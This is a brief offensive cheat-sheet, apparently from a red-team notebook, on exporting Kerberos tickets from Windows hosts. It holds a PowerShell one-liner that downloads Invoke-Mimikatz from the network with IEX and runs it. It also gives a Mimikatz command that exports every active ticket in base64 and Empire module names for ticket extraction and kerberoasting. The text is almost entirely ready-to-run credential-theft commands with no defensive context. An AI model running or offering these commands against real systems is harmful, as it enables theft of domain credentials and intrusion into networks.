

Exporting Tickets
Mimikatz
kerberos::list /export is awesome, but will generate a file per-ticket. Can use base64 mode with mimikatz to export all of the artive tickets and exit
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command 'standard::base64 "kerberos::list /export" exit'
Empire
usemodule credentials/mimikatz/extract_tickets
run
powershell/credentials/invoke_kerberoast
